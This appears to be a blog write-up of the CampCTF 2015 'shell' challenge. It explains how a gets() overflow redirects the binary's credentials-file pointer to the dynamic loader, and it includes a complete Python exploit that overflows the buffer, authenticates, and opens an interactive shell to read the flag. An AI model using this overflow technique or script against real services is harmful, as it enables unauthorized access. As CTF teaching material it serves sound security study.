 ```yaml
---
layout: post
title: "CampCTF 2015 Shell"
date: 2015-08-19 21:00:09 -0400
author: [barrebas]
comments: true
categories: [campctf]
---
```


### Solved by barrebas

shell was a pwnable from CAMP CTF. We're given a 64-bit ELF binary, which shows the following when executed:

```bash
bas@tritonal:~/bin/ccc/shell$ ./shell
$ help
sh whoami date exit ls help hlep login
$ sh
Permission denied
$ login
Username: AAAA
Password: BBBB
Authentication failed!
$ 
```

Furthermore, the output of `strings ./shell` shows that the binary is looking for `creds.txt`. I placed a file in the same directory with `admin:admin` as sole line and indeed, I could now login:

```bash
$ login
Username: admin
Password: admin
Authenticated!
# sh
$
```

So we'll need to login with valid credentials, which we do not have yet. The rest of the commands are not of interest. Let's have a look at the disassembly, specifically at the part where our input is processed:

```
  400c2a:   movabs rdi,0x400f89
  400c34:   mov    al,0x0
  400c36:   call   400750 <printf@plt>
  ; this is the buffer it's using
  400c3b:   lea    rdi,[rbp-0x80]               
  400c3f:   add    rdi,0x4
  400c46:   mov    DWORD PTR [rbp-0xd0],eax
  400c4c:   mov    al,0x0
  ; here we get the username
  400c4e:   call   400790 <gets@plt>
  400c53:   movabs rdi,0x400f94
  400c5d:   mov    DWORD PTR [rbp-0xd4],eax
  400c63:   mov    al,0x0
  400c65:   call   400750 <printf@plt>
  ; this is the buffer for password
  400c6a:   lea    rdi,[rbp-0x80]
  400c6e:   add    rdi,0x24
  400c75:   mov    DWORD PTR [rbp-0xd8],eax
  400c7b:   mov    al,0x0
  400c7d:   call   400790 <gets@plt>
  400c82:   movabs rsi,0x400f9f
  ; i suppose I can overwrite this value
  400c8c:   mov    rdi,QWORD PTR [rbp-0x18]     ; creds.txt
  400c90:   mov    DWORD PTR [rbp-0xdc],eax
  400c96:   call   4007b0 <fopen@plt>
```

So basically, the calls to `gets()` happen to write to the stack. We're not able to overwrite the saved return address because of the canary, but we can overwrite the pointer at `[rbp-0x18]`, which contains a pointer to the string `creds.txt`. We can overwrite this with a pointer to another string, to make the binary open another file to check our credentials!

The only option that I could find was `/lib64/ld-linux-x86-64.so.2`. The problem is, does this actually contain valid pairs of `user:name`? I grabbed the file via a shell I obtained on bitterman and ran it through strings:

```
bas@tritonal:~/bin/ccc/shell$ strings ./ld.so |grep ":"
|F:m
<:uR
sHu:H9
...snip...
FATAL: kernel too old
Unused direct dependencies:
    Version information:
    %s:
prelink checking: %s
wrong ELF class: ELFCLASS32
undefined symbol: 
relocation processing: %s%s
...snip...
```

Indeed, it does! So the plan is to overwrite the pointer on the stack with the pointer to `/lib64/ld-linux-x86-64.so.2`, then login with one of those combinations of "username" and "password". The exploit:

```python
#!/usr/bin/python
import struct, time
from socket import *

def q(x):
    return struct.pack("<Q", x)

def readtil(delim):
  buf = b''
  while not delim in buf:
      buf += s.recv(1)
  return buf
  
def pwn():
    global s
    s = socket(AF_INET, SOCK_STREAM)
    s.connect(('challs.campctf.ccc.ac', 10117))

    readtil('$')
    s.send('login\n')
    readtil('Username:')
    s.send('AAAA\n')
    readtil('Password:')
    # overwrite rbp-0x18, which used to contain a pointer to "creds.txt"
    # overwrite it with a pointer to 0x400200 ("/lib64/ld-linux-x86-64.so.2")
    # I harvested this file already via one of the other challenges
    s.send("A"*68+q(0x400200)+'\n')
    
    readtil('$')
    s.send('login\n')
    readtil('Username:')
    s.send('relocation processing\n')
    readtil('Password:')
    s.send(' %s%s\n')
    
    import telnetlib
    t = telnetlib.Telnet()
    t.sock = s
    t.interact()
pwn()
```

And it action:

```bash
bas@tritonal:~/bin/ccc/shell$ python ./poc.py 
 Authenticated!
# id
Command not found
# sh
ls
creds.txt
flag.txt
run.sh
shell
cat flag.txt
CAMP15_408eed038796cfca32e2fdb3a8126429
```


